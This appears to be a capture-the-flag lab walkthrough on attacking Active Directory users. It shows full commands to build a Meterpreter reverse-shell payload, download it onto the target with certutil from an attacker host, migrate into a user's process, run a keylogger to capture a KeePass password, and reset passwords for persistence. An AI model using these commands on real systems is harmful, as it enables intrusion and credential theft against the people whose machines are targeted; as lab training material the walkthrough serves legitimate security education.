 # Exploiting Active Directory Users

We have achieved significant progress in our exploitation efforts. With full administrative access to workstations and servers, we can perform post-exploitation on almost any Tier 1 and Tier 2 system. However, to reach our objectives, we need to go further and target Active Directory (AD) users.

---

## Users and User Behavior

> "The factory of the future will only have two employees. A human and a dog. The human will be there to feed the dog. The dog will be there to bite the human if they try to touch something."  
> — Warren Bennis

Users are often the weakest link in the security chain. Weak passwords and poor security habits, such as granting overly permissive permissions, are common. Overlooking this attack surface would be a mistake. In this task, we focus on two key elements:

- **Credential Management**: How users store their credentials. In AD, users may have multiple sets of credentials, making secure storage essential.
- **Keylogging**: Understanding how users interact with a system can be valuable. Keylogging, combined with screengrabs, helps attackers gain this perspective.

---

## Hunting for Credentials

After compromising `THMSERVER1`, enumerate user directories for valuable information. You may find a `.kdbx` file—a credential database (e.g., KeePass). Use Meterpreter's `download` command to recover this file.

However, the database is encrypted. Cracking the password may not be feasible if the user chose a strong one. Instead, observe how the user interacts with the database.

---

## SYSTEM is Sometimes Too Privileged

Meterpreter includes a keylogger, but running it as `SYSTEM` is ineffective since `SYSTEM` does not type keystrokes. To capture user credentials, migrate your shell to the target user's context.

### Steps:

1. **Obtain a Meterpreter Shell**  
    Generate a PowerShell Meterpreter payload:
    ```sh
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=exploitad LPORT=<Listening port> -f psh -o shell.ps1
    ```
    Start a listener in `msfconsole`:
    ```sh
    sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST exploitad; set LPORT <listening port>; exploit"
    ```
    Host the payload and copy it to the target:
    ```sh
    certutil.exe -urlcache -split -f http://<your_ip>/shell.ps1
    ```

2. **Identify User Processes**  
    List processes and filter for `explorer.exe`:
    ```sh
    meterpreter> ps | grep "explorer"
    ```
    Example output:
    ```
    PID   PPID  Name          Arch  Session  User                     Path
    ---   ----  ----          ----  -------  ----                     ----
    3612  3592  explorer.exe  x64   1        THMSERVER1\trevor.local  C:\Windows\explorer.exe
    ```

    *If `explorer.exe` for `trevor.local` is not running:*
    - Reset the password:  
      `net user trevor.local <chosen password>`
    - Start explorer:  
      `C:\auto-login.ps1 trevor.local <chosen password> THMSERVER1`
    - Reboot the server:  
      `shutdown -r`

3. **Migrate to the User Process**  
    ```sh
    meterpreter> migrate 3612
    [*] Migrating from 4408 to 3612...
    [*] Migration completed successfully.
    ```

    Confirm context:
    ```sh
    meterpreter> getuid
    Server username: THMSERVER1\trevor.local
    ```

4. **Start the Keylogger**  
    ```sh
    meterpreter> keyscan_start
    Starting the keystroke sniffer ...
    ```

    Wait, then dump keystrokes:
    ```sh
    meterpreter> keyscan_dump
    Dumping captured keystrokes...
    keep<CR>
    <Shift>Passwordpasswordpassword<CR>
    ```

---

## Next Steps

This is a basic example of targeting AD users. User targeting should be part of your exploitation methodology. To answer related questions, use KeePass (installed on the AttackBox or installable via `sudo apt install keepassx` on most Linux distros). Download the KeePass database with Meterpreter and ensure proper file ownership before opening it.

**Tip:** Consider creating a local admin account on `THMSERVER1` for persistence, though this is optional and requires additional research.
